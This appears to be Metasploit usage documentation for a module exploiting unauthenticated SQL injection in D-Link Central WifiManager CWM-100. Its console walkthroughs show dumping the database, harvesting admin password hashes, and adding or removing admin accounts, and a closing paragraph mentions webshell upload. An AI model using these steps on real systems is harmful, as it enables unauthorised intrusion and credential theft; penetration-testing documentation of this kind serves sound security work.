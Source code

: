 ## Vulnerable Application

This module exploits a vulnerability in Dlink Central
WifiManager (CWM-100), found in versions lower than
v1.03R0100_BETA6, allowing unauthenticated users to
execute arbitrary SQL queries.

This module has 3 actions:

| Action        | Description                |
| ------------- | -------------------------- |
| SQLI_DUMP     | Data retrieval*            |
| ADD_ADMIN     | Creation of an admin user  |
| REMOVE_ADMIN  | Removal of an admin user   |

\* : each table is saved in the loot directory in CSV format, credentials (password hashes) are saved as
creds for future cracking.

Has been tested with 1.03r098.

## Verification Steps

1. Download the vulnerable software, and install it
- Run the vulnerable software, downloadable from
  [here](https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10117).
- direct download link:
  `ftp://ftp2.dlink.com/SOFTWARE/CENTRAL_WIFI_MANAGER/CENTRAL_WI-FI_MANAGER_1.03.zip
2. Reproduction steps
- Run `msfconsole`
- set rhosts ...
- set action ...
- `check` or `exploit`
- should work as in the scenarios below

## Actions

```
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > show actions

Auxiliary actions:

   Name         Description
   ----         -----------
   ADD_ADMIN    Add an administrator user
   REMOVE_ADMIN Remove a user
   SQLI_DUMP    Retrieve all the data from the database

```

## Options

```
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > show options

Module options (auxiliary/sqli/dlink/dlink_central_wifimanager_sqli):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   Admin_Password  anything         no        The password of the user to add/edit
   Admin_Username  red0xff          no        The username of the user to add/remove
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          192.168.1.223    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT           443              yes       The target port (TCP)
   SSL             true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI       /                yes       The base path to DLink CWM-100
   VHOST                            no        HTTP server virtual host

```

## Scenarios

This module has both `check` and `run` functions.

### Retrieving all the data from the database

```
msf5 > use auxiliary/sqli/dlink/dlink_central_wifimanager_sqli 
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > set action SQLI_DUMP 
action => SQLI_DUMP
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > set rhosts 192.168.1.223
rhosts => 192.168.1.223
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > check 

[+] 192.168.1.223:443 - The target is vulnerable.
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > run
[*] Running module against 192.168.1.223

[+] Target seems vulnerable
[+] DBMS version: PostgreSQL 9.1.0, compiled by Visual C++ build 1500, 32-bit
[*] Enumerating tables
[+] grouptossltable saved to /home/redouane/.msf4/loot/20200828180148_default_192.168.1.223_dlink.http_187571.csv
[+] paypalsettingtable saved to /home/redouane/.msf4/loot/20200828180149_default_192.168.1.223_dlink.http_642251.csv
[+] ordertable saved to /home/redouane/.msf4/loot/20200828180149_default_192.168.1.223_dlink.http_944954.csv

...

[+] tempstationtable saved to /home/redouane/.msf4/loot/20200828180505_default_192.168.1.223_dlink.http_577215.csv
[+] Saved credentials for admin
[+] Saved credentials for red0xff
[+] usertable saved to /home/redouane/.msf4/loot/20200828180153_default_192.168.1.223_dlink.http_608945.csv

...

[+] devicesnmpsecuritytable saved to /home/redouane/.msf4/loot/20200828180154_default_192.168.1.223_dlink.http_825556.csv
[*] Auxiliary module execution completed
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > 
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > creds
Credentials
===========

host  origin         service  public   private                           realm  private_type        JtR Format
----  ------         -------  ------   -------                           -----  ------------        ----------
      192.168.1.223           admin    21232f297a57a5a743894a0e4a801fc3         Nonreplayable hash  raw-md5
      192.168.1.223           red0xff  f0e166dc34d14d6c228ffac576c9a43c         Nonreplayable hash  raw-md5

msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > 
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > loot

Loot
====

host           service  type        name                         content          info  path
----           -------  ----        ----                         -------          ----  ----
192.168.1.223           dlink.http  biggrouptable.csv            application/csv        /home/redouane/.msf4/loot/20200828180503_default_192.168.1.223_dlink.http_360290.csv
192.168.1.223           dlink.http  devicetable.csv              application/csv        /home/redouane/.msf4/loot/20200828180503_default_192.168.1.223_dlink.http_230830.csv

...

ult_192.168.1.223_dlink.http_878195.csv
192.168.1.223           dlink.http  devicesnmpsecuritytable.csv  application/csv        /home/redouane/.msf4/loot/20200828180506_default_192.168.1.223_dlink.http_086271.csv

msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > 
```

### Adding an admin user/changing the password of a user

```
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > set action ADD_ADMIN 
action => ADD_ADMIN
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > set Admin_Username msfadmin
Admin_Username => msfadmin
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > set Admin_Password msfadmin
Admin_Password => msfadmin
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > run
[*] Running module against 192.168.1.223

[+] Target seems vulnerable
[*] User not found on the target, inserting
[*] Auxiliary module execution completed
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > set Admin_Password msfpassword
Admin_Password => msfpassword
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > run
[*] Running module against 192.168.1.223

[*] Trying to detect installed version
[+] Target seems vulnerable
[*] User already exists, updating the password
[*] Auxiliary module execution completed
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > 
```

### Deleting an administrator user

```
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > set action REMOVE_ADMIN 
action => REMOVE_USER
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > set Admin_Username red0xff
Admin_Username => red0xff
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > run
[*] Running module against 192.168.1.223

[+] Target seems vulnerable
[*] Auxiliary module execution completed
```

### Going further

It is possible to upload arbitrary files to the target system using queries of the form
(copy ... to ...), but using full paths, the attacker must know the path of the webroot
to upload a webshell this way.
